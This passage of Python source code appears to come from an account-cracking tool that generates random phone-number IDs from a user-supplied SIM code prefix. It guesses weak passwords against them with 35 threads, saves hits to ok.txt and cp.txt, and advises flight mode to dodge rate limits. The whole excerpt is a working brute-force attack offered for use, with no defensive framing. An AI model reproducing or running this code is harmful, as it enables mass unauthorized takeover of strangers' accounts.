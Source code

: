 			pwx = [guru,kode+guru,'baloch','malik12','baloch12','baloch12345','malik12345']
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[âœ“] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()
#____
def bd1():
	uid=[]
	os.system('clear')
	print(logo)
	print('[âˆš] EXAMPLE : 88***,88***,88***,.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	print(' Example : 1000,5000,10000,****Etc')
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode+guru]
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[âœ“] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()

#___
def bd2():
	uid=[]
	os.system('clear')
	print(logo)
	print('[âˆš] EXAMPLE : 88***,88***,88***,.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	print(' Example : 1000,5000,10000,****Etc')
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')